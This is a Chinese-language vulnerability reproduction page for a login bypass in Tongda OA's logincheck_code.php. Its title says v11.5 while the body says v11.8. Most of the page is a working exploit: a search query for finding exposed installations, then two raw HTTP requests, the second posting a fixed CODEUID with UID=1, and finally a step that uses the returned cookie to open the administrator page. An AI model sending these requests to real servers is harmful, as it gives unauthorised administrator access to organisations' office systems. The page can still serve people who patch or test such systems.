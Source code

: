 # 通达OA v11.5 logincheck_code.php 登陆绕过漏洞

## 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628306796311-4c49ac12-0e18-44ef-a0c2-c6a2d7d0f20a.png)

发送第一个请求包

```php
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](../../../.vuepress/public/img/1628306860352-5e9f9343-742d-4697-abe8-7e5c2534722d.png)

再发送第二个恶意请求

```php
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

![img](../../../.vuepress/public/img/1628306918632-bb9e22e6-79b6-4fe1-8839-729fc9b6abe5.png)

获取cookie后访问管理员页面 `/general/index.php`

![img](../../../.vuepress/public/img/1628307007812-02e45309-32af-4513-a89c-00aa30fb9366.png)